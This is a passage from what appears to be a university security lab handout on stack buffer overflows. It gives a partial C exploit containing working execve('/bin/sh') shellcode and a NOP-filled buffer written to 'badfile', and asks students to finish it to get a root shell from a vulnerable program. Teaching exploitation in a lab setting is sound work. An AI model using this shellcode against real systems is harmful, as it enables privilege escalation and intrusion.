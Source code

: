 \subsection{Task 2: Exploiting the Vulnerability} 


We provide you with a partially completed exploit code called 
\texttt{"exploit.c"}. The goal of this code is to construct contents 
for \texttt{badfile}. In this code, the shellcode is given to you. 
You need to develop the rest. 


\begin{lstlisting}
/* exploit.c  */

/* A program that creates a file containing code for launching shell */
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

char shellcode[] =
  "\x31\xc0"         /* Line 1:  xorl    %eax,%eax              */
  "\x50"             /* Line 2:  pushl   %eax                   */
  "\x68""//sh"       /* Line 3:  pushl   $0x68732f2f            */
  "\x68""/bin"       /* Line 4:  pushl   $0x6e69622f            */
  "\x89\xe3"         /* Line 5:  movl    %esp,%ebx              */
  "\x50"             /* Line 6:  pushl   %eax                   */
  "\x53"             /* Line 7:  pushl   %ebx                   */
  "\x89\xe1"         /* Line 8:  movl    %esp,%ecx              */
  "\x99"             /* Line 9:  cdq                            */
  "\xb0\x0b"         /* Line 10: movb    $0x0b,%al              */
  "\xcd\x80"         /* Line 11: int     $0x80                  */
;							        

void main(int argc, char **argv)
{
    char buffer[517];
    FILE *badfile;

    /* Initialize buffer with 0x90 (NOP instruction) */
    memset(&buffer, 0x90, 517);

    /* You need to fill the buffer with appropriate contents here */ 
    /* ... Put your code here ...  */

    /* Save the contents to the file "badfile" */
    badfile = fopen("./badfile", "w");
    fwrite(buffer, 517, 1, badfile);
    fclose(badfile);
}
\end{lstlisting}
 

After you finish the above program, compile and run it. This will generate
the contents for \texttt{badfile}. Then run the vulnerable 
program {\tt stack}. If your exploit is implemented correctly, you should 
be able to get a root shell:  

